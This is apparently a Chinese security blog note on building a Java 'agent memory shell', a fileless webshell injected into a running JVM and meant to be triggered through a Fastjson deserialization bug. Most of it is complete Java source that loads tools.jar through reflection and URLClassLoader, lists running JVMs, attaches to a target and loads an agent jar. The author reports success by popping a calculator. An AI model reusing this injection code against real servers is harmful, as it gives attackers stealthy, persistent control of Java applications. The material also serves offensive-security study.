 # Agent 内存马

用的FastjsonMem做的项目
[nice_0e3](https://www.cnblogs.com/nice0e3/p/14086165.html)先跟这位师傅学习一下。

在实战中只有启动后加载agent才会有实质性的作用。
在文章中分析,实际只要三步就可完成agent内存马！
![image-20220913164945711](https://cdn.jsdelivr.net/gh/zx-creat/myblog@master/img/202209131649815.png)

那其实这里构造agent内存马的思路很简单。

- 找到加载的已知类
- 反射调用其方法
- 由于 tools.jar 并不会在 JVM 启动的时候默认加载，利用 URLClassloader 来加载我们的 tools.jar

于是有以下代码。

```java
package xs;

public class Demo {

    public static void main(String[] args) {
        try{
            java.io.File toolsPath = new java.io.File(System.getProperty("java.home").replace("jre","lib") + java.io.File.separator + "tools.jar");
            System.out.println(toolsPath.toURI().toURL());
            java.net.URL url = toolsPath.toURI().toURL();
            java.net.URLClassLoader classLoader = new java.net.URLClassLoader(new java.net.URL[]{url});
            Class<?> MyVirtualMachine = classLoader.loadClass("com.sun.tools.attach.VirtualMachine");
            Class<?> MyVirtualMachineDescriptor = classLoader.loadClass("com.sun.tools.attach.VirtualMachineDescriptor");
            java.lang.reflect.Method listMethod = MyVirtualMachine.getDeclaredMethod("list",null);
            java.util.List<Object> list = (java.util.List<Object>) listMethod.invoke(MyVirtualMachine,null);

            System.out.println("Running JVM Start..");
            for(int i=0;i<list.size();i++){
                Object o = list.get(i);
                java.lang.reflect.Method displayName = MyVirtualMachineDescriptor.getDeclaredMethod("displayName",null);
                String name = (String) displayName.invoke(o,null);
                System.out.println(name);
                if (name.contains("xs.Demo")){
                    java.lang.reflect.Method getId = MyVirtualMachineDescriptor.getDeclaredMethod("id",null);
                    java.lang.String id = (java.lang.String) getId.invoke(o,null);
                    System.out.println("id >>> " + id);
                    java.lang.reflect.Method attach = MyVirtualMachine.getDeclaredMethod("attach",new Class[]{java.lang.String.class});
                    java.lang.Object vm = attach.invoke(o,id);
                    java.lang.reflect.Method loadAgent = MyVirtualMachine.getDeclaredMethod("loadAgent",new Class[]{java.lang.String.class});
                    java.lang.String path = "F:\\AgentMem\\target\\AgentMem-1.0-SNAPSHOT.jar";
                    loadAgent.invoke(vm,path);
                    java.lang.reflect.Method detach = MyVirtualMachine.getDeclaredMethod("detach",null);
                    detach.invoke(vm,null);
                    break;
                }
            }
        } catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

这里有些值得注意的点，我将原来的代码中`loadAgent.invoke(vm,new Object[]{path});`和`java.lang.Object vm = attach.invoke(o,new Object[]{id});`都该成了普通字符串，因为看方法参数传入的是字符串。
然后只要想办法将`Demo`构造一下，然后让其加载一下就行（也就是找一个触发点，这里用的fastjson！！）

最后在说个奇怪的东西。
![image-20220913171912396](https://cdn.jsdelivr.net/gh/zx-creat/myblog@master/img/202209131719573.png)

不知道为什么python启动的环境一直没有收到该收到的请求。但是还是成功弹了计算器~
